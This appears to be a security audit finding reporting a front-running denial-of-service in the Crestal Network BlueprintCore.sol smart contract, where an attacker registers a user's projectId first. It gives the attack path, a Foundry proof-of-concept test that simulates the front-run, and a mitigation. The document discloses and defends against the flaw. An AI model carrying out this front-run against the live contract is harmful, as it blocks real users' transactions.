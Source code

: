 Best Plastic Yak

Medium

# Attacker will snipe projectIds causing Denial of Service

### Summary

A Malicious actor can snipe a Project Id using any of the functions that directly pass a projectId as a parameter.

### Root Cause

In `BlueprintCore.sol` most functions that create a `projectId` receive a projectId in their parameters and call [setProjectId](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L175). This means that an attacker looking to DoS the protocol can frontrun any of the following calls:
- `createProjectIDAndProposalRequest`
- `createProjectIDAndProposalRequestWithSig`
- `createProjectIDAndDeploymentRequest`
-  `createProjectIDAndDeploymentRequestWithSig`
-  `createProjectIDAndPrivateDeploymentRequest`
-  `createAgentWithToken`
-  `createAgentWithTokenWithSig`
-  `createAgentWithNFT`
-  `createAgentWithWhitelistUsers`
-  `createAgentWithWhitelistUsersWithSig`
-  `createAgentWithSigWithNFT`

Basically any of the public functions that receive a projectId to be created.
And register the same projectId using for example the function `createProjectIDAndProposalRequest` with the same projectId and any data for the other parameters. Due to the newProject modifier the users transaction that was frontran will revert.

### Internal Pre-conditions

1. User calls any public function that receives projectId as a parameter to create projectId.

### External Pre-conditions

None

### Attack Path

1. MEV bot sees the transaction in the mempool
2. MEV bot frontruns trnsaction and registers the projectId
3. User transaction reverts

### Impact

Denial of Service, there is no financial incentive for an attacker to do this, but it wouldn't be an expensive attack either.

### PoC

This test can be included in the BlueprintV5.t.sol test file
```solidity
function test_frontrunProjectId() public {
        address attacker = makeAddr("attacker");
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2981);

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // Mint tokens to the test account
        uint256 validTokenAmount = 100 * 10 ** 18;

        // set none zero cost for create agents, use any number greater than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);

        mockToken.mint(address(this), validTokenAmount);

        // Verify the mint
        uint256 balance = mockToken.balanceOf(address(this));
        assertEq(balance, validTokenAmount, "sender does not have the correct token balance");

        // check LogApproveEvent
        vm.expectEmit(true, true, false, true);
        emit MockERC20.LogApproval(address(this), address(blueprint), validTokenAmount);

        // Approve the blueprint contract to spend tokens directly from the test contract
        mockToken.approve(address(blueprint), validTokenAmount);

        // check allowance after approve
        uint256 allowance = mockToken.allowance(address(this), address(blueprint));
        assertEq(allowance, validTokenAmount, "sender does not have the correct token allowance");

        // 1. MEV bot sees the transaction in the mempool
        // 2. MEV bot frontruns trnsaction and registers the projectId
        string memory base64attack = "test test test";
        string memory fakeURL = "http://test.com";
        vm.prank(attacker);
        blueprint.createProjectIDAndProposalRequest(projectId, base64attack, fakeURL);

        // 3. User transaction reverts
        vm.expectRevert();
        blueprint.createAgentWithToken(projectId, base64Proposal, workerAddress, serverURL, address(mockToken));
    }
```

### Mitigation

Use the `createProjectID` method instead of directly using `setProjectId` that way the project Id is created in the same transaction.